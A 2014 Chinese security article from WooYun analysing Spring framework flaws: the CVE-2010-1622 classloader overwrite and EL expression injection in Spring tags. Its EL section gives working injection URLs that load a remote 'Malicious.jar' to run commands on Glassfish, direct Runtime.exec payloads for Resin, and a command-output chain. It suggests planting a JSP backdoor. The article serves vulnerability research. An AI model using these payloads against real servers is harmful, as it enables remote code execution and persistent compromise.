



# Spring 框架问题分析

2014/09/01 11:29 | [tang3](http://drops.wooyun.org/author/tang3 "由 tang3 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 概述

* * *

Spring 作为使用最为广泛的 Java Web 框架之一，拥有大量的用户。也由于用户量的庞大，Spring 框架成为漏洞挖掘者关注的目标，在 Struts 漏洞狂出的如今，Spring 也许正在被酝酿一场大的危机。

本文将针对 Spring 历史上曾出现的严重漏洞和问题，进行分析讨论这套框架可能存在的问题。

## 0x01 变量覆盖问题

* * *

CVE-2010-1622 在 Spring 官方发布的漏洞公告中，被定义为任意代码执行漏洞。但是，这个问题的主要问题是由于，对私有成员保护不足，而导致的变量覆盖。从漏洞成因上来看并不能称为代码执行漏洞，只能算是变量覆盖，代码执行只不过是利用罢了。

Spring 框架提供了一种绑定参数和对象的机制，可以把一个类绑定到一个 Controller。然后在这个 Contraller 类中，将一个页面绑定到特定的处理方法中，这个方法可以把页面参数中，与对象成员对应的参数值赋予该成员。

例如：我绑定了一个 User 类，User 类中存在一个成员 name，绑定的页面名为 test.html。那么如果我提交 test.html?name=123，User 类中的 name 便被赋予值为 123。

当然这种使用方法是有前题的，就是这个成员是 public 或者提供 set 方法，否则是不能赋值的。这个漏洞就是这个限制出现了问题，导致数组类型的成员在非 public 且没有提供 set 方法的情况下，可以通过这种方式被赋值。我们下面来看负责这个功能实现的类对于数组参数的处理代码：

```
else if (propValue.getClass().isArray()) { Class requiredType = propValue.getClass().getComponentType(); int arrayIndex = Integer.parseInt(key); Object oldValue = null; try { if (isExtractOldValueForEditor()) { oldValue = Array.get(propValue, arrayIndex); } Object convertedValue = this.typeConverterDelegate.convertIfNecessary( propertyName, oldValue, pv.getValue(), requiredType); Array.set(propValue, Integer.parseInt(key), convertedValue); } 
```

可以看出上面处理数组的代码中，没有对成员是否存在 set 方法进行判断。也没有通过调用成员的 set 方法进行赋值，而是直接通过 Array.set 方法进行赋值，绕过 set 方法的这个处理机制。

在漏洞发现者的博客上，提到了 Java Bean 的 API Introspector. getBeanInfo 会获取到该 POJO 的基类 Object.class 的属性 class,进一步可以获取到 Class.class 的诸多属性，包括 classloader。

而 Spring 的 org.springframework.beans.CachedIntrospectionResults.class 类，正好通过这个 API，遍历用户提交表单中有效的成员。这就意味着，结合这个漏洞，我们可以通过 HTTP 提交，来设置很多的私有成员，这真是太恐怖了！

下面我们来看看，如何将 Spring 这个特性和漏洞结合起来，进行利用。
之前我们提到了我们可以通过 Java

Bean 获取到 classloader 对象，而 classloader 中有一个 URLs[]成员。Spring 刚好会通过 Jasper 中的 TldLocationsCache 类（jsp 平台对 jsp 解析时用到的类）从 WebappClassLoader 里面读取 url 参数，并用来解析 TLD 文件在解析 TLD 的时候，是允许直接使用 jsp 语法的，所以这就出现了远程代码执行的最终效果。

好了，到这里我们整理下思路。通过漏洞我们可以对 classloader 的 URLs[]进行赋值操作，然后 Spring 会通过平台解析，从 URLs[]中提取它所需要的 TLD 文件，并在执行 jsp 是运行这个 TLD 所包含的内容。

有了这个思路，利用方法也就呼之欲出了。构造一个带有恶意 TLD 文件的 jar，通过 HTTP 将 jar 的地址告诉 URLs[]，然后坐等执行。
利用效果如图所示：


## 0x02 EL 表达式注入问题

* * *

2012 年 12 月国外研究者 DanAmodio 发表《Remote Code with Expression Language Injection》一文，拉开了 Spring 框架 EL 表达式注入的序幕。

随着表达式的愈加强大，使得原来本不应该出问题的情况，出现了一些比较严重的问题。而且 Java Web 框架一般都会有在核心代码使用表达式的坏习惯，Struts 就是很好的例子。Spring 的框架本身是不会存在代码执行的问题，但是随着 EL 表达式的强大，逐渐成为了问题。而且 EL 表达式是 Java Web 程序默认都会使用的一种表达式，这可能会在未来一段时间内成为 Java Web 程序的噩梦。

我通过代码跟踪定位到 Spring 最终执行 EL 表达式的代码：

```
private static Object evaluateExpression(String exprValue, Class resultClass, PageContext pageContext)
        throws ELException {

    return pageContext.getExpressionEvaluator().evaluate(
            exprValue, resultClass, pageContext.getVariableResolver(), null);
} 
```

了解了 Spring 标签属性执行 EL 表达式的大体流程：首先通过标签类处理相关内容，将需要执行 EL 表达式的标签属性传入到 evaluateString 或者其他方法，但最终都将流入到 doEvaluate 方法中，经过一些处理将截取的属性值最为传入到 evaluateExpression 方法，最后 evaluateExpression 方法再将传入的属性值作为表达式交给平台去执行。

以上这些其实仅仅是对 EL 表达式注入问题分析的开始，因为真正实现执行的地方是平台，也就是说，不同的平台 EL 表达式的操作和执行也是不同的。因此，我分别针对 Glassfish 和 Resin 平台进行了测试，目前比较流行的 Tomcat 平台也进行了测试，但是由于它和 Spring 框架在 EL 表达式的实现上存在一些分歧，导致 Tomcat 平台下 EL 表达式不可以调用方法。

下面我们分别来看看 Glassfish 和 Resin 平台下，不同的利用方法。
先来看 Glassfish 下的利用，首先在我们另一台服务器上放置编译如下代码的 jar 文件：

```
public class Malicious { public Malicious() { try { java.lang.Runtime.getRuntime().exec("calc.exe"); //Win } catch (Exception e) { } } } 
```

然后我们通过 EL 表达式创建一个数组（URLClassLoader 的构造函数需要 URL 数组作为参数），存放在 session 中，url 为

```
http://target/file? message=${pageContext.request.getSession().setAttribute("arr","".getClass().forName("java.util.ArrayList").newInstance())}。 
```

下一步我们通过 URI 提供的 create 方法，可以创建一个 URL 实例，我们把这个实例保存在刚刚创建的数组中，url 为

```
http://target/file?message= ${pageContext.request.getSession().getAttribute("arr").add(pageContext.getServletContext().getResource("/").toURI().create("http://serverip/Malicious.jar").toURL())}。 
```

Malicious.jar 文件就是我们之前保存在另一台服务器中的 jar 文件。EL 表达式中的 PageContext 类中 getClassLoader 方法得到的对象的父类便是 URLClassLoader，所以，我们便可以调用 newInstance 方法了，url 为

```
http://target/file?message= ${pageContext.getClass().getClassLoader().getParent().newInstance(pageContext.request.getSession().getAttribute("arr").toArray(pageContext.getClass().getClassLoader().getParent().getURLs())).loadClass("Malicious").newInstance()}。 
```

效果如下图所示：



下面我们来看下在 Resin 环境下的利用方法，先来看个直接的演示，访问链接：

```
http://localhost:8080/test.do?${pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("calc",null).toString()} 
```

效果如下图所示：



我曾一度想要写出像 Struts 那样可以执行命令并回显的利用代码，但是由于 EL 表达式并没有提供变量和赋值的功能，让我不得不去想可以有相同的效果的方法。初步的思路是，利用 EL 可以存储任意类型 session 这个功能，对命令执行的结果流进行存储和处理，最后转换为字符串，打印到页面上。

我找到了打印任意内容到页面的方法，即通过 EL 提供的 pageContext 中 response 对象中的 println 方法。例如：访问

```
http://localhost:8080/test.do?a=${pageContext.response.getWriter().println('aaa')} 
```

会返回 500 错误，在错误中会显示我们的自定义内容：



下面只要将命令执行的结果流转换为 String，输出给 println 函数即可。下面是按照我之前思路，构造的利用代码：

```
${pageContext.request.getSession().setAttribute("a",pageContext.request.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("whoami",null).getInputStream())}

${pageContext.request.getSession().setAttribute("b",pageContext.request.getClass().forName("java.io.InputStreamReader").getConstructor(pageContext.request.getClass().forName("java.io.InputStream")).newInstance(pageContext.request.getSession().getAttribute("a")))}

${pageContext.request.getSession().setAttribute("c",pageContext.request.getClass().forName("java.io.BufferedReader").newInstance(pageContext.request.getSession().getAttribute("b")))}

${pageContext.request.getSession().setAttribute("d",pageContext.request.getClass().forName("java.lang.Byte").getConstructor(pageContext.request.getClass().forName("java.lang.Integer")).newInsTance(51020))}

${pageContext.request.getSession().getAttribute("c").read(pageContext.request.getSession().getAttribute("d"))}

${pageContext.response.getWriter().println(pageContext.request.getSession().getAttribute("d"))} 
```

首先将命令执行结果流存储至 session 属性 a 中；然后将 a 属性的内容作为初始化 InputStreamReader 对象的参数，并将对象存储至 b 属性；第三步将 b 属性中的内容作为参数初始化 BufferedReader 对象，并将对象存储至 c 属性；第四步初始化一个字符数组，存储至 d 属性中；第五步将 c 中的内容通过 read 方法，放入到 d 属性中，及转化为字符；最后 print 出 d 属性中内容。

但是这个思路我没有实现的最终原因是，通过 EL 使用反射初始化构造方法需要参数的对象时，参数类型和方法定义的参数类型总是不匹配。我想尽了我能想到的办法，最后还是找不到解决办法。

后面想到的一个可行的利用方法，是利用 Glassfish 平台下使用的方法，加载一个执行写文件到指定目录的 jar 包，来生成一个 jsp 后门。

Spring 框架中几乎只有标签的部分使用了 EL 表达式，下面我们将罗列出这些使用 EL 表达式的标签。

**form 中可执行 EL 的标签：**

1.    AbstractDataBoundFormElementTag

2.    AbstractFormTag

3.    AbstractHtmlElementTag

4.    AbstractHtmlInputElementTag

5.    AbstractMultiCheckedElementTag

6.    AbstractSingleCheckedElementTag

7.    CheckboxTag

8.    ErrorsTag

9.    FormTag

10.  LabelTag

11.  OptionsTag

12.  OptionTag

13.  RadioButtonTag

14.  SelectTag

**Spring 标准标签库中执行 EL 的标签**：

1.    MessageTag

2.    TransformTag

3.    EscapeBodyTag

4.    setJavaScriptEscape(String)

5.    EvalTag

6.    HtmlEscapeTag

7.    HtmlEscapingAwareTag

8.    UrlTag

9.    BindErrorsTag

10.  doStartTagInternal()

11.  BindTag

12.  NestedPathTag

## 0x03 总结

* * *

变量覆盖这个问题，相对于 EL 表达式注入来说算是个意外情况，修补之后不会有太多先关联的问题出现。而 EL 表达式这个问题，就有点象 Struts 的 Ognl，是一个持续的问题，对于它的封堵，只能是见一个补一个。毕竟攻击者利用的就是 EL 提供的功能，我们总不 能因噎废食的要求 EL 不可以支持方法的调用。

版权声明：未经授权禁止转载 [tang3](http://drops.wooyun.org/author/tang3 "由 tang3 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [一种新的攻击方法——Java-Web-Expression-Language-Injection](http://drops.wooyun.org/tips/2494)
*   [PostgreSQL 的那点事儿](http://drops.wooyun.org/tips/218)
*   [基于 snmp 的反射攻击的理论及其实现](http://drops.wooyun.org/tips/2106)
*   [Android Logcat Security](http://drops.wooyun.org/tips/3812)
*   [一次 app 抓包引发的 Android 分析（续）](http://drops.wooyun.org/tips/2986)
*   [Android 证书信任问题与大表哥](http://drops.wooyun.org/tips/3296)